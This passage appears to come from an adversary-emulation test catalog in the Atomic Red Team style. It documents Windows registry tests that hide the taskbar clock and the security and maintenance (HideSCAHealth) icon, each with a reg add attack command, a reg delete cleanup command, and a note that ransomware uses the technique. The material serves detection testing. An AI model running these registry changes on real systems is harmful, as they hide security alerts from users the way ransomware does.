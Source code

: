 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v HideClock /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v HideClock /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #28 - Windows HideSCAHealth Group Policy Feature
Modify the registry of the currently logged in user using reg.exe via cmd console to remove security and maintenance icon Group Policy. 
Take note that some Group Policy changes might require a restart to take effect.
See how ransomware abuses this technique- https://www.virustotal.com/gui/file/2d7855bf6470aa323edf2949b54ce2a04d9e38770f1322c3d0420c2303178d91/details

**Supported Platforms:** Windows


**auto_generated_guid:** a4637291-40b1-4a96-8c82-b28f1d73e54e






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v HideSCAHealth /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v HideSCAHealth /f >nul 2>&1
```





<br/>
<br/>
